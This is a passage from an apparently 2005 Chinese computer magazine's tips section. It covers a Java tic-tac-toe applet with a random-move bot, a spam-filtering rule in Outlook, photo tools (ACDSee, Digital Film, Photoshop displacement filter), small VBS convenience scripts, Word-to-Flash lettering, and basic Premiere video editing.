    for (int i = 0; i < 9; i++) {
        if (NOUGHT == board[i]) {
            g.drawImage(noughtImage, i % 3 * xoff, i / 3 * yoff, this);
        } else if (CROSS == board[i]) {
            g.drawImage(crossImage, i % 3 * xoff, i / 3 * yoff, this);
        }
    }
    if (true == gameOver) {
        // 若游戏结束，则绘制结局信息
    }
}
```

记得通过 Ctrl+Shift+M 快捷键加入对类的引用。好了，框架一瞬间就搭建起来了，你现在可以直接运行这个 Applet，虽然只是个空白的棋盘。OK，现在你可以再运行这个游戏，是不是已经像模像样了呢？

# 人机对弈

只能够点圈圈多没有意思，不如实现一个机器人陪你下棋吧！其实，眼光犀利的朋友一定已经注意到在上文的代码中看到amateur()这个伏笔……

没错，让我们把amateur()前面的注释符号去掉，加入如下的实现：

```
Java
/**
 * 拥有业余选手棋力的机器人下一步棋。
 */
public void amateur() {
    ArrayList blanks = new ArrayList();
    // 搜索出所有的空格记录到free中
    for (int i = 0; i < 9; i++) {
        if (board[i] == FREE) {
            blanks.add(new Integer(i));
        }
    }
    // 若已经没有空格可以下了便和棋，否则随便挑一个空格下……
    if (blanks.size() == 0) {
        message = "平局";
        gameOver = true;
    } else {
        int index = (int) (Math.random() * blanks.size());
        board[((Integer) (blanks.get(index))).intValue()] = CROSS;
    }
}
```

现在再玩这个Applet，是不是机器人当仁不让地跟你对弈起来了呢？

# Just Do It

如果你对机器人的IQ颇有微辞，为什么不想想看如何提高它的棋力呢？

建议在网上搜索一下人工智能的相关算法，比如minimax、alpha-beta算法，尝试自己实现。

如果你仍觉得意犹未尽，下面是一些由Gary推荐的阅读材料：

- The Java 1.1 Event Model
  http://my.execpc.com/~gopalan/java/dragger.html
- Java AWT: Delegation Event Model
  http://java.sun.com/j2se/1.4.2/docs/guide/awt/1.3/designspec/events.html

Sun公司官方的文档，追求正统血脉的开发者的最爱。

(北京 GaryChan)

大家在看本期杂志时，应该已经有一堆春节时拍的照片了吧。想好怎么处理它们了吗？想做些特殊效果？又不会用Photoshop？想制作成网页，又不会做，怎么办呢？不如来试试“我行我速5”吧。看看我是如何只花五步就能把照片处理得很专业。

# 五步让照片换新颜

1. 第一步: 打开“我行我速5”后，点击左上角的“浏览→浏览”按钮，打开照片。
2. 第二步: 先来把照片亮度修改一下。点击屏幕上方“编辑→调整→智能改善”按钮，接着点击窗口左侧的“自动调整色调”及“亮度和对比度”按钮，对画面的色彩进行调整(见图1)。
3. 第三步: 我决定在照片上留下我的名字，于是点击了窗口上方的“文字→添加/编辑”按钮，在窗口左侧的“文字”栏中输入我的名字，然后设置“字体”及颜色，点击“应用”按钮，就完成输入了。不过文字光秃秃的有点难看，于是又点击“文字→效果→火焰”，然后在窗口左侧双击了一个看起来不错的火焰文字效果，这样我的名字就变成了火焰文字。
4. 第四步: 好像我还不够漂亮，需要再修整一下。于是点击了窗口上方的“效果→摄影→美化肤色”，这样把我脸上的青春痘都去掉了。
5. 第五步: 最后还要加点效果。点击窗口上方“装饰→边缘→魔术”，同样是在左侧双击满意的效果，就可以完成添加了。为了增加效果，我又使用了“装饰→画框”功能，为照片添加了一款相框(见图2)。

第六步: 现在照片已经处理完了，按下Ctrl+S，将照片保存。然后选择“分享→电子邮件”，就可以将照片发给其他好友了。当然你也可以选择“打印”项，将照片按照不同样式打印，或直接打印至T恤上。





“我行我速5”里面还有很多有意思的东西，比如图画签名，照片的艺术处理，填充各种图案等等，非常方便。

(笨笨熊)

# 巧用瑞星杀毒软件2005过滤垃圾邮件

垃圾邮件是目前困扰用户的一个严重问题，许多信息安全厂商都开始进行反垃圾邮件的研究。目前，瑞星杀毒软件2005版中已经添加了反垃圾邮件功能。

瑞星杀毒软件2005版的反垃圾邮件模块是基于目前较为先进的贝叶斯定理(Bayesian)进行开发的，具有自我学习的优点。因此瑞星杀毒软件2005版的反垃圾邮件功能区别于其他同类产品，不需要用户进行繁琐复杂的规则设置，只需要打开杀毒软件的“邮件监控”功能，并在设置中选择“过滤垃圾邮件”即可。当用户收取电子邮件时，邮件监控程序便会对邮件进行判断，如果发现为垃圾邮件，则会自动在邮件主题添加“瑞星提示此邮件可能是垃圾邮件”提示信息，但瑞星并不能将垃圾邮件自动扔到垃圾箱中。

其实，我们可以使用Outlook的邮件“规则和通知”功能方便的对垃圾邮件进行过滤。

1. 第一步: 在Outlook的菜单栏中点击“工具→规则和通知”，在弹出的对话框中点击“新建规则”，弹出“规则向导”对话框。
2. 第二步: 选中“将主题中包含特定词语的邮件移至文件夹”(见图1)，然后点击“步骤2”中的“特定词语”链接，在弹出的对话框中输入“瑞星提示此邮件可能是垃圾邮件”，点击“添加”按钮(见图2)。
3. 第三步: 点击“步骤2”中的“指定”链接，选中“垃圾邮件”夹，点击“确定”。

经过这样设置后，以后再收到被瑞星检测出的垃圾邮件就会自动地被移动到“垃圾邮件”夹中。




# Just Do It

Foxmail、Outlook Express都提供有邮件规则功能，如果你在使用这两个软件，请按照相同的方法设置规则，将瑞星过滤出来的垃圾邮件自动放置到垃圾箱中。Foxmail为“账户→过滤器”、Outlook Express为“工具→邮件规则→邮件”。

(瑞星工程师 史瑀)

# 数码照片仿真“反转片”

如果你喜欢艳丽的色彩和逼真的层次感，仅仅使用普通数码相机还是很难实现的，而能够胜任此要求的反转片数码相机的价格却一直高高在上。或许有人说，可以用Photoshop等图像处理软件来做反转片，但众多调节参数让许多人望而生畏，其实，你不妨来试试Digital Film(以下简称DF)。在开始之前，可以打开http://www.gsnsoft.com/df/product_sample.htm来看看反转后的效果。

# Digital Film 小档案

- 软件版本: 1.62
- 软件大小: 2597KB
- 软件性质: 共享软件
- 适用平台: Windows 9x/2000/XP
- 下载地址: http://www.onlinedown.net/soft/23663.htm

# 小知识

### 什么是反转片

我们平时用普通光学相机拍照冲洗出的底片被称为负片，将相片底片翻正就得到正片，比如电影院放映机的电影拷贝。我们平日的照片在一定程度上也可看作正片，它是由相机先拍摄，再翻转，最后冲印得到的。而反转片是指拍摄后，将获得的感光胶片直接反转冲洗而获得高色彩高对比度的照片或胶片，一般有黑白反转片和彩色反转片，彩色反转片可直接获得色彩与被摄体几乎完全相同的胶片，其色彩真实鲜艳，具有高质量的正像效果，被大量用于制版印刷和制作精美的幻灯演示程序，专业摄影师在拍摄广告照片和婚纱艺术照片时也大多使用彩色反转片。

现在就来将一幅春意盎然的油菜花相片变得更加逼真和艳丽。

第一步：快速反转照片
运行DF，点击“打开”按钮打开要优化的数码相片，接着勾选“启用正片仿真”，并选择合适的“正片类型”，试用版提供“富士Velvia(RVP)”及“柯达黑白T-Max 100”两种仿真，如果照片主体是人物，请勾选“人像”选项，接着单击“应用”按钮即可将照片摇身变成美丽的反转片了(见图1)。



第二步：添加水印和签名
点击“水印”标签页，勾选“启用水印”并在位置栏中确定好水印的显示位置，一般默认即可。再单击“打开图像”按钮，选择自己的水印LOGO(不要太大)，如笔者加了CFan的LOGO，并将“不透明度”设为30。如果想要将水印LOGO中某种颜色透明，在“指定透明色”选择即可。

第三步：给相片裱个框
点击“边框”标签页，勾选“启用边框功能”，在其后的选择框中可选择“白底黑边”或“黑底白边”，下面的各种设置默认即可，最后点击“应用”按钮即可。另外，你还可以将自己喜欢的图片作为“衬底”，方法是勾选左下方的“图片”选项，并选择满意的图片(见图2)。



小提示
未注册的DF会在你的照片左上角叠加一个大约150像素×55像素的水印LOGO，但不影响相片整体效果，如果追求完美，不妨在PhotoShop等图片处理软件中将相片上方留出大约高为55像素的空白，再放到DF中进行处理，处理完毕后，再用PhotoShop或ACDSee裁剪掉数码正片的LOGO便可。

（河北 闫艳力）

# ACDSee 我不仅仅只能看图片

ACDSee最初以支持图像格式全面、浏览速度快而著称，成为人们日常看图必备的经典软件。它从1993年推出DOS版以来，发展至今已经到7.0版本了。最新版的ACDSee除了基本的图片、多媒体浏览功能外，还集图片获取、管理、编辑及多媒体制作于一身，成为一个强大的多功能媒体处理软件。

### 菜鸟初试身手

#### 实例1：看图我要随心所欲

第一步：安装好ACDSee后，几乎所有格式的图像及媒体文件都会与之关联，随时随地双击图像文件就能自动启动ACDSee的查看窗口进行观赏，在查看窗口工具栏上有一排按钮，可以让我们更方便地浏览图像，比如前后翻阅、放大缩小视图等，不过看图时很少有人用鼠标操作，大多通过快捷键的方式进行。下面简单列一下ACDSee看图常用快捷键：
- PageUp键(或空格键)、PageDown键(或BackSpace键)：当前目录中如有多个图像时，按这几个键可以前后翻阅图像。
- Alt + S组合键：按一次可自动浏览图像，与幻灯片效果有点类似，再按一次停止自动浏览。
- + 号键、- 号键：放大或缩小显示视图。
- F 键：按一次可全屏显示图像，再按一次又会回到窗口状态。

按键时要小心，不要误按，比如按小键盘上的Delete键将会删除图像文件，若是按Shift + Delete组合键，图像会被彻底删除。

小提示
- ★如果不想让某类文件与ACDSee关联，可选择菜单命令“工具->文件关联”调出关联对话框，分别点击“图像”、“视频”、“音频”及“压缩文件”标签，将不希望关联的文件取消勾选就可以了。反之，将需要跟ACDSee关联的项选中，可修复ACDSee的文件关联。
- ★如果觉得某张图片很漂亮，可直接右击并选择“壁纸->居中(或“平铺”)”将其设置为桌面壁纸。

第二步：双击图像或按回车键可切换到ACDSee浏览窗口(见图1)，这个窗口非常适合浏览、查找不同文件夹中的图像。在左上角文件夹窗格中很容易定位到保存图片的文件夹，点选后，右侧窗格中即显示出该文件夹中所有图片的缩略图，点选某一缩略图，它会实时显示在左下角的预览框中。若想在一屏中显示更多缩略图，可将右上角处的滑钮拖向“-”号这一边。



第三步：点击右侧窗格上方的“查看模式”，从下拉列表中可以看出它的许多模式与Windows的查看模式相似，这里就不介绍了。比较有意思的是其“过滤器”功能，单击该按钮后，可以从打开的过滤器窗口中设置哪些文件显示、哪些文件不显示。

Just Do It
看图用幻灯模式更惬意
如果要更为惬意地欣赏某个文件夹中的图片，最好使用ACDSee的幻灯片播放模式，在ACDSee浏览窗口内按下Ctrl + S组合键(或“工具->幻灯片”)打开幻灯设置对话框，确定即可。请注意其“基本”选项卡，这里可以设置很Cool的转换效果。

#### 实例2：今天，让Photoshop休息一下

Photoshop是一款专业的图像处理软件，但它也比较耗费系统资源，如果只是对图像做一些小修改，完全可以由ACDSee来完成。

(1) 剪出你需要的部分
第一步：在ACDSee图像查看窗口中(如果当前为ACDSee浏览窗口，可双击需要剪裁的图像进入查看窗口)，点选工具栏上的选择工具(即虚线框图标，快捷键Shift + F2)，这时鼠标会变成一个矩形框，表示可以选取图像了。
第二步：在要选取区域的左上角按下鼠标左键不放并向右下方拖动，画出一个虚线框圈住要选取的图形后放开鼠标按键，选取框周边有八个黄色节点，拖动它们可以调整选区的大小。
第三步：在选取框内右击鼠标，从右键菜单中选择“剪切另存为”命令打开另存对话框，取一个文件名保存即可。

(2) ACDSee也玩图像滤镜
图像处理软件中的各种滤镜可以产生许多奇妙的图像效果，大受图像爱好者的青睐。ACDSee也带有大量滤镜，Photoshop有的，它几乎也都有。下面以给图像增加浮雕效果为例说明一下ACDSee中的滤镜使用。
第一步：在查看窗口中浏览到需要处理的图像。
第二步：单击“修改->效果->艺术->浮雕”菜单命令打开浮雕滤镜对话框(见图2)，拖动调整“海拔”、“宽”、“方位”可以编辑浮雕的不同效果，满意后单击右下角的“完成”按钮即可。



(3) 治治数码照片的“红眼病”
数码相机拍摄的照片，往往有红眼的毛病，这时可以使用ACDSee的去红眼功能来修复它。
第一步：在图像查看窗口中浏览到需要去红眼的照片。
第二步：单击菜单命令“修改->去红眼”打开去红眼滤镜对话框。按几次“+”号键放大图像，然后用鼠标圈选住有红眼的部分，要尽量精确一些。单击“眼睛颜色”下拉按钮，选择正常的眼睛颜色，然后一边拖动“数量”滑钮一边观察，直到红眼现象消失为止。
第三步：效果满意后，单击右下方的“完成”按钮即可。

## 图片格式轻松转换

ACDSee能够方便地进行各种图片格式之间的转换，并且支持批量转换。在ACDSee中进入要转换的图片文件夹，然后按住Ctrl键多选或全选图片，接着右击并选择“工具→转换文件格式”。接下来按照提示即可完成格式转换。如果选择转换为“TIFF”格式，在最后一步你还可以“合并”，从而生成包含多张图片的一个单独TIF文件。

## 实例3：管理照片 省心省时

能够体现ACDSee最强大功能的地方就是其管理图片功能，如果你经常和很多图片打交道（比如喜欢摄影、收藏壁纸等），这个功能可以让你事半功倍地管理照片。

- 第一步：在ACDSee浏览窗口中进入照片文件夹，按下Alt + 回车组合键打开“属性 - 图像数据库”窗口，这时按如图3所示方法选中单独的一张照片或多张照片，为其设置不同的“级别”或分成不同“种类”。
- 第二步：已经设置好“级别”及“种类”后，可以在窗口左侧中部点击“管理”标签，然后选择需要筛选的“种类”及“等级”，这时就可以快速查看此属性中的图片了（见图4）。

ACDSee提供了体贴的日期管理照片功能，单击“管理”标签右侧的“日历”标签，可以让你快速根据日期查看照片。

## 实例4：不同文件夹 操作要统一

我们经常要对不同文件夹下的多个文件进行相同操作，比如进行转换格式、设置级别、复制到同一文件夹等，在Windows资源管理器中需要把文件统一复制到一个文件夹，然后再处理。而ACDSee的图像篮子可以让你把文件先放进一个篮子，然后在篮子窗口中集中操作。

- 第一步：选择菜单中的“查看→图像篮子”，打开“图像篮子”窗格（也可以直接右击文件并选择“添加到图像篮子”）。
- 第二步：拖拽不同文件夹下的图片至“图像篮子”窗格，然后选中所有图片后右击，再选择不同项目就可以修改级别、种类，甚至是复制至同一文件夹了。

## 实例5：ACDSee兼职文件大管家

ACDSee具备强大的文件管理功能，在其窗口右击后可新建文件夹、重命名文件，右击文件后还可以选择移动或复制文件，比Windows资源管理器还要好用。另外，当你选中某个文件后，按住Shift键再右击，将会弹出Windows资源管理器的右键菜单。

### （1）快速制作文件清单

有时我们希望将某个文件夹中的文件制作成列表，以便平时查询，这时可在ACDSee中进入该文件夹，直接按下Ctrl + G组合键（点击“数据库→导出→生成文件列表”）即可得到一个详细的文件列表。

### （2）相同的文件快给我出来

电脑中经常会有不少完全一样的文件，而ACDSee能帮你快速把它们清查出来。点击“工具→查找重复”，在弹出窗口中“添加”要查找的文件夹，在单击两次“前进”按钮后，ACDSee便会快速找出重复文件，并且可以轻松将它们删除。

### （3）压缩包当文件夹

ACDSee提供了流行的压缩格式的支持，点击“工具→插件→插件设置”，接着进入“压缩文件”选项卡，确认已勾选常用的压缩格式，比如ZIP、RAR、CAB等，这样在ACDSee中双击某个压缩包，就会像文件夹一样打开并查看其中文件，而不必解压缩。

### （4）给文件一起改名

我们从网上下载的MP3文件常常在命名上很不规则，比如：有的是以数字命名，有的是按歌名命名，有的是中文，有的是英文，利用ACDSee强大的重命名功能，可以让它们快速按照同一方式命名。

在ACDSee中进入保存MP3的文件夹（如果它们散落在不同文件夹，可利用“图像篮子”将它们先集中在一起），接着全选文件，然后右击并选择“重命名”，在弹出窗口的“模板”选项卡中单击“清除模板”按钮清除当前的模板，再单击“插入元数据”按钮，接着展开“多媒体属性”列表，从中选择你希望的命名项目，比如“标题”、“歌手”（此前必须保证MP3文件本身带有ID3标签），按下“确定”按钮后，在“预览”窗口中出现了新的文件名，确认无误后，单击“开始重命名”按钮即可。

## ACDSee还可以这样玩

### 实例1：做个图片索引图册

如果一个文件夹中包含有很多图片（或者在多个文件夹中包含有一些你非常喜欢的图片），你可以将它们的缩略图制作为一张图片，并且还可以创建一个HTML文件，以后只要打开这个文件即可通过单击其中的缩略图直接在IE中浏览相应图片。与下面介绍的电子相册不同的是，它不会创建缩略图文件。

配合Ctrl键或Shift键选中多个图像文件，执行菜单命令“创建→创建缩略图页面”（见图5），在打开的窗口根据需要进行设置，然后勾选右侧的“输出一个HTML图像映射”项，“确定”后ACDSee会生成一个包含缩略图的图像文件及ImageMap.htm。

### 小提示

如果你将图片刻录成光盘（或直接冲印成照片），最好有个所有图片的缩印，这样更便于管理。选中相应图片，点击“文件→打印”，在“打印设置”中单击选择“相关页”（有些汉化版在此处为“图册”），此时在预览框中可以看到所选的图片排在了一张打印纸了（如版面不够，会生成多张）。在左右两侧的参数窗格中进行相应设置，最后单击右下角“打印”按钮就可以了。

### 实例2：精美图片摇身变程序

经常羡慕别人发布的屏幕保护程序，或者是Flash动画吗？其实有了ACDSee，你也能轻松制作。选中相应图片，接着点击菜单命令“创建→创建幻灯片显示”，在弹出窗口中你可以选择是创建EXE的幻灯片程序，还是SCR的屏幕保护程序，或者是SWF的Flash动画。接下来你就可以把它发送给自己的朋友，让他们与你一起享受美图的乐趣了。

### 小提示

- ★如果只是在自己的电脑上将照片转换成屏幕保护，可在选中图片后执行“工具→设置屏幕保护”可打开屏保制作对话框进行设置。
- ★“创建→建立PDF”命令可以生成一个图片PDF文件。

### 实例3：屏幕抓图

ACDSee的抓图功能可以对桌面、窗口、对象进行捕获，而且能把抓到的图片输出到剪贴板、文件和ACDSee的图像编辑器中。在ACDSee中，执行“工具→捕获屏幕”命令，在弹出对话框设置抓取的区域、图片保存的目标，再设置一下抓图的方式（是通过热键还是计时器），最后单击“开始”按钮就可以抓图了。

### 实例4：打造网页电子相册

选中要制作为相册的照片，接着点击菜单命令“建立→建立HTML相册”，按照提示即可快速创建一个漂亮、专业的HTML电子相册。

## 三个VBS脚本让你的操作快快快

2004年有一篇文章《巧用SendKey N步并一步》，介绍了VBS脚本的基本应用和技巧。看了之后，受益匪浅，闲来无事，就写了三个不错的脚本（本文代码可以从http://www.newhua.com/cfan/200504/vbs.rar处下载）。

### 1. 新建复制一次完成

实现功能：在复制一些文字后，运行这个脚本，就会自动打开“记事本”，并自动在“记事本”中粘贴复制的文本（将如下的代码输入“记事本”中，在保存时，将扩展名改为VBS即可）。

```
Dim WshShell
Set WshShell = CreateObject("WScript.Shell")
WshShell.Run "notepad"
WScript.Sleep 1000
WshShell.AppActivate "无标题 - 记事本"
WshShell.SendKeys "^v"
```

注：如果电脑够快，这里可以修改WScript.Sleep 1000后的1000为更小的数值，以加快执行速度。

### 2. 全文自动翻译

实现功能：在复制一些英文内容后，运行这个脚本，就会自动打开金山全文翻译程序，并把所复制的英文粘贴到金山全文翻译程序中，然后进行翻译（代码略）。

注：代码中的“C:\Progra~1\Kingsoft\FASTAIT\KingTr~1.exe”为所安装金山快译的路径，请自行修改，注意目录及文件名要使用8.3格式。

### 3. 快速静音

实现功能：运行这个脚本，就可以实现系统静音（代码略）。

注：如果要实现取消静音，则把代码的“+”改成“-”即可。

## Just Do It

如果经常使用这些脚本，建议在桌面创建它们的快捷方式，然后为其指定相应的快捷键组合，比如：Ctrl + F3之类的。

北京 风云 小海 阿飞

江西 朱春林

## 在身体上做画 无痛体验人体彩绘

### 四步完成人体彩绘

如今，人体彩绘算得上是一种时尚，但现实生活却很难让我们有勇气亲自尝试，其实你完全可以在Photoshop中试试各种彩绘效果，过一把时尚瘾（本文涉及到的图片素材，可在http://www.newhua.com/cfan/200505/photo.rar处下载）。

- 第一步：启动Photoshop，打开一幅花朵的图片（见图1），再打开一张人物照片（见图2），当然最好是自己的照片。
- 第二步：在工具箱中选择移动工具（快捷键V），将花朵图片拖放到人物照片图像窗口中，它会自动建立一个新图层，将该图层重命名为“图案”。按下Ctrl + T组合键，花朵图片四周会显示8个锚点，拖动锚点可调整图片大小；在图片中间按住鼠标左键不放并拖动可移动图片的位置，将光标移到图片之外，则光标会变成弯曲的双箭头状，此时拖动鼠标可旋转图片（见图3），调整好之后在图片内双击鼠标确定即可。为了去掉花朵图片中的白色背景，可单击图层面板左上角的下拉按钮，将“图案”层的混合模式选择为“正片叠底（Multiply）”。
- 第三步：人物脸部有起伏变化，为了让花朵产生“贴”在脸上的感觉，还需要进一步加工。选择矩形选框工具（快捷键M），在花朵周围画出一个矩形选框，将图案全部包括进去。在图层调板上，单击进入背景图层（也就是人物所在图层），然后按下Ctrl + C组合键复制位于选框内人物的脸部。点击“文件→新建”菜单命令打开新建对话框，将其命名为“脸”，背景选择为“透明”，长宽的值已自动设置好了，不用管它，单击“确定”按钮建立新图像文件。在新建的图像窗口中按下Ctrl + V组合键，将人物脸部图像粘贴进来，保存“脸”图像为PSD格式文件，然后将其关闭掉。
- 第四步：回到人物照片图像窗口，在图层调板上选择“图案”图层。刚才的矩形选框还在，按下Ctrl + D组合键取消选择。选择菜单命令“滤镜→扭曲→置换”，在对话框中将水平比例和垂直比例设为15，其他选项保持默认即可。单击“确定”按钮，出现选择置换图对话框，找到并打开刚才保存的“脸.psd”文件。可以看到花朵图案沿着脸部的弧度产生了一些曲度，就像是贴在了人物的皮肤上。如果对变化结果不满意，可按Ctrl + Z组合键恢复上一步操作，重新使用置换滤镜，调整水平比例和垂直比例的数值后再试（见图4）。
- 第五步：适当调整图层的透明度，可使得贴图效果更加真实。使用上述方法，还可以将图案贴到有褶皱的衣服上，产生一些漂亮效果（见图5）。

### 知其所以然：深入了解置换滤镜

#### 1. 什么是置换滤镜

置换滤镜是Photoshop中一个很特别的图像过滤器，它以一个事先准备好的位移图为依据，对图像进行移位处理，选择不同的位移图将达到完全不同变形效果。这个滤镜常被用来制作无缝贴图效果。

#### 2. 置换滤镜的工作原理

执行“滤镜→扭曲→置换”命令调出置换滤镜对话框，设置好位移量后单击“确定”按钮，又会显示一个打开对话框，此时要求选择的即是位移图像。位移图必须是PSD格式的图像，如果它是只有一个通道的灰度图，则对应于位移图中的黑色区域中的色彩向右下方移动，移动多少取决于我们在置换滤镜对话框中的设置；同样，对应于位移图中的白色区域的色彩将向左上方移动；对应于50%中性灰色区域的色彩不产生位移。如果位移图是含有多个通道的彩色图像，则第一个通道中的亮度值决定水平位移，第二个通道中的亮度值决定垂直位移。如图6所示，是置换滤镜工具的一个示意图：图左是原图像；图中是位移图，上面的箭头是笔者所画，表明原图像中色彩将要移动的方向；最终效果如图右所示。

### 乘胜追击，玩转换置滤镜

#### 1. 三分钟把钱币变旧

网页地址：http://www.pconline.com.cn/pcedu/sj/pm/photoshop/0310/226176.html

重点体会：这个实例的重点在于位移图的制作，通过云彩滤镜制作出褶皱效果的纹理。

延展练习：试试用这个方法给书本、衣服、古画等图像加上褶皱效果。

#### 2. 没有阳光？我们来制造

网页地址：http://www.pconline.com.cn/pcedu/sj/pm/photoshop/10304/154970.html

重点体会：将置换滤镜应用于多图层图像上，图层模式选用“叠加”。

延展练习：试试做一个水光潋滟的倒影效果。

#### 3. 再没有这样酷的文字了！

网页地址：http://www.xici.net/main.asp?doc=30197384

重点体会：利用点状化、喷溅、浮雕等滤镜制作出不同风格的纹理作为位移图（这个网页可能需要刷新多次才能看到）。

延展练习：大家可以使用“风滤镜”制作纹理做为位移图，制作一个动感十足的运动文字。

（天津 奇士）

### Just Do It

请你使用适当的位移图，让静止的国旗飘扬起来，效果如图7所示。

## Flash与Word联姻闪出精美艺术字

Flash是一款强大的动画制作工具，不过它自身的绘画功能却非常有限，我们可以借助其他软件来弥补Flash这方面的不足。下面是将Word中制作的艺术字移植到Flash中的例子，大家可以借鉴此方法，将其他软件制作的立体图形引入到Flash中。

- 第一步：这里以制作“新年快乐”这四个字为例，分别启动Flash MX 2004（或其他版本）和Word。
- 第二步：在Word中，点击菜单命令“插入→图片→艺术字”，在弹出的艺术字库窗口中选择一种艺术字式样，点击“确定”；在接着弹出的编辑窗口中输入文字（本例输入的是“新”字），并设置适当字体和字号，确定后在Word文本区便生成了一个艺术字。单击选中这个艺术字再做一些调整，效果满意后，按快捷键Ctrl + C复制。
- 第三步：在Flash中点击菜单命令“文件→新建”新建一个空白的Flash文档。点击图层1的第1帧，再按快捷键Ctrl + V粘贴，刚才在Word中制作的艺术字“新”就粘贴到主场景的舞台中了。
- 第四步：在主场景的第1层中，单击选中第20帧，按F6键插入1个关键帧。再单击选中第1帧，然后在属性面板“初间”下拉列表中选择“动作”，在“旋转”下拉列表中选择“顺时针”，参数设置为“1”。一个旋转的
- 第五步：连续点击时间轴左下角的“插入图层”按钮，依次增加3个新层。接着再按上述方法在3个新图层中分别添加“年”、“快”、“乐”3个艺术字动画。最后，点击菜单命令“文件→导出→导出影片”，将制作好的“新年快乐”Flash影片导出为SWF、GIF或AVI动画，发送给自己的朋友们一起欣赏一下吧。

### Just Do It

还记得我们2005年第2期特别话题——《“闪”了“闪”了——Flash动画制作一日通》第二个实例“瑞雪飘飘E卡传情”吗？请你利用这里学会的方法，修改贺卡中的文字，使其更精彩！

（江西 严创明）

## 轻松做个大导演 学用Premiere制作电影

Adobe公司的桌面视频编辑软件Premiere经过多年发展，受到了业界的普遍好评。利用它可以非常方便地完成影片剪辑、音效合成工作，并可输出为多种格式的动态影像，非常适合影视工作室、中小电视台和家庭使用。

Premiere版本很多，最新版本是Premiere Pro 1.5，不过该版本对CPU指令系统有一定要求，普通电脑无法运行它，所以大家常用的依然是成熟的Premiere 6.5，它支持Windows 9x/2000/XP，操作简单、功能强大、插件众多，本文即以此版本为基础写作而成。

### 自编自导小电影

#### 实例1：武夷归来不看山

笔者去武夷山旅游时，用DV拍了好几段视频素材保存在电脑中，乘着工作不忙，决定将它们剪辑成一部风景影片。其实，没有视频素材的朋友，同样也可以借鉴下面方法，将多张照片剪辑组合成动态小电影。

- 第一步：如果第一次运行Premiere 6.5，首先会弹出“初始化工作区”对话框，对初学者来说，建议单击选择A/B轨编辑模式（以后还可以在“窗口→工作区域”菜单中更改）。随后会显示出工程设置窗口，因为本例中的素材主要来自DV，所以选择“DV-PAL Real-time Preview”下的“Standard 48kHz”项，然后单击“确定”按钮进入Premiere的主界面（见图1）。
- 第二步：首先将各种素材导入到素材窗口中，本例导入的是笔者从武夷山拍回来的几段视频及多张风景照片，以及准备给影片配乐用的一个MP3音乐文件。在素材窗口空白处右击，在弹出的右键菜单中选择“导入→文件”，在打开的对话框里选中需要导入的文件（配合Ctrl或Shift键可多选）打开即可。
- 第三步：按Ctrl + S快捷键调出保存对话框，将当前项目保存起来，防止意外操作导致数据丢失。然后如图2所示，从素材窗口中将视频素材、照片依次拖到不同的视频轨道中，各视频片段之间要稍有些重叠，便于后面加入转场效果。将MP3音乐文件拖放到“音频3”轨道上。我们可以对拖入的视频、音频片段进行各种剪辑工作：点选时间线窗口左上角的选择工具（黑箭头图标，快捷键V），可以用它拖动视频片段到不同的位置，也可以将视频片段拖到其他的视频轨上（如“视频2”轨）；同样是使用选择工具，将光标移到视频片段两侧的边线上；光标将变成双箭头状，左右拖动可缩减或还原视频片段的长度（如果是图片素材还可以无限加长）；点选左上角第一行的第四个工具（剃刀工具，快捷键C），然后在视频片段任意处点击，可将其一分为二，如果你用DV拍摄的视频中有不满意的镜头，可先使用剃刀工具将视频片段切分开，再用选择工具点选不想要的那部分镜头，按Delete键删除即可。

> **小提示**
> 为了使视频剪切更为精确，可以放大或缩小时间线窗口：点击时间线窗口左下角的小三角按钮，将弹出一个选项窗口，选项“1帧”表示时间线窗口视频轨道上的一格代表一帧图像，“1秒”表示一格代表一秒钟的图像，以此类推。对视频进行粗剪时可选择2秒、4秒或更高；精剪时可选择4帧、2帧或1帧，这样剪出来的片段将会非常精确。

- 第四步：单击“监视器”窗口中的三角播放按钮（或按空格键）预览一下，在优美的音乐声中，视频、照片连续播放，影片雏形已经出来了。不过影片每个片段之间的切换比较生硬，下面就来好好加工一下。
    - 1. 首先根据音乐旋律的进展调整好各个视频片段的位置、长度。
    - 2. 如图3所示，在特效窗口中选择满意的转场效果，如：Dissolve下的Cross Dissolve就是一个渐隐渐现的转场效果，也是一个用得最多的转场效果，用鼠标将这个转场效果拖至视频1A和1B轨道之间的特技轨道上，放在两个视频片段的重叠处，软件会根据重叠的大小自动调整转场的长短，按回车键即可预览转场的效果了。

> **小提示**
> 转场效果是Premiere的一个重要特色，但许多初学者觉得转场效果非常好玩，就不分镜头不分情节地加入各种令人眼花缭乱的特效，结果适得其反，降低了影片的欣赏性、艺术性。其实，我们平时看电视剧就会注意到，实际上广泛使用的还是硬切（直接切换），间或有几次渐隐渐现，复杂的转场几乎看不到。

- 第五步：接下来要做的是给影片加上字幕。执行“文件→新建→字幕”命令打开Premiere自带的字幕编辑软件（见图4）。
    - 1. 在“字幕类型”中选择“Still”（静止）。如果希望制作出像电视剧演职员表那样滚动效果的字幕，此处可选择“Roll”（滚动）。
    - 2. 在工具箱中点选“T”按钮。
    - 3. 在需要打入字幕的位置先点击一下鼠标。
    - 4. 点击窗口右侧“Font”后面的按钮，选择一种满意的字体，本例选择的是黑体SimHei（注意：如果选择的是英文字体将不能输入汉字）。
    - 5. 在“Font Size”处设置字体的大小。
    - 6. 点击“Color”后面的色块按钮，为字体选择颜色，本例选的是红色。
    - 7. 为了使字幕的边缘清晰，勾选“Shadow”（阴影）项，然后在下面选择阴影的颜色及大小。
    - 8. 开始输入字幕文字。输入完后，如果刚才设置的字体、颜色及阴影等不满意可选中文字后再修改。如果字幕位置不合适，可以点选工具箱中的选择工具，然后直接拖动文字即可改变它的位置。这里要注意，在输入字幕窗口里，除背景图像外，还有一个白色双线框，这个框又叫做电视安全框，设置字幕时应尽量让文字处于白色双线框的里面，因为超出部分有可能在电视机里无法显示出来。
- 第六步：执行“文件→保存”命令保存字幕文件，然后关闭字幕设置窗口回到Premiere主界面中，你会发现刚才保存的字幕文件已加入到素材窗口中了。字幕一般应该拖到视频所在轨道的上一个轨道中，这时会发现已有的轨道不够用了，需要再增加一个轨道：在时间线窗口里点鼠标右键，在弹出的菜单里选择“添加视频轨道”即可。将刚才生成的字幕素材拖入刚增加的轨道上，就能像编辑视频片段一样调整它的位置及长度了。按回车键可预览一下效果。

一个影片效果的好坏，除前期摄像外，后期剪辑也格外重要，限于篇幅在此就不一一细说了。对于初学者，重要的是多学多看多剪，逐步积累经验，最终会让自己剪辑的片子越来越流畅，越来越好看。

